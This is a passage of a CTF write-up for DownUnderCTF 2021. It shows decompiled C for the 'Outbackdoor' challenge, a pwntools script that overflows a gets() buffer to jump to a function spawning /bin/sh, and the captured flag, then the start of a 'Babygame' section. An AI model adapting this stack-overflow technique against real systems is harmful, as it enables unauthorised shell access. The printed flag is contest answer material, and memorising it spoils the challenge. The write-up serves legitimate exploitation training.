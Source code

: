 ## Outbackdoor

[This challenge](https://github.com/th3-5had0w/CTF-contests/raw/master/DownUnderCTF2021/outdoor/outBackdoor) is still a classical buffer overflow challenge, but this time i'll overwrite the return pointer instead of overwriting some variable.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  buffer_init(argc, argv, envp);
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(v4);
  return 0;
}

...

int outBackdoor()
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  return system("/bin/sh");
}
```

So i just need to padding enough to where the return pointer address was and overwrote it, then it's done, my exploit script:
```python
from pwn import *

io = remote('pwn-2021.duc.tf', 31921)
print(io.recv())
payload = b'A'*24+p64(0x00000000004011d7+1)
io.sendline(payload)
io.interactive()
```
Flag: `DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}`

## Babygame

Now this is a good [challenge](https://github.com/th3-5had0w/CTF-contests/raw/master/DownUnderCTF2021/babygame/babygame), not hard but really interesting tho.
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  puts("Welcome, what is your name?");
  read(0, NAME, 0x20uLL);
  RANDBUF = "/dev/urandom";
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      v3 = get_num();
      if ( v3 != 1337 )
        break;
      game();
    }
    if ( v3 > 1337 )
    {
```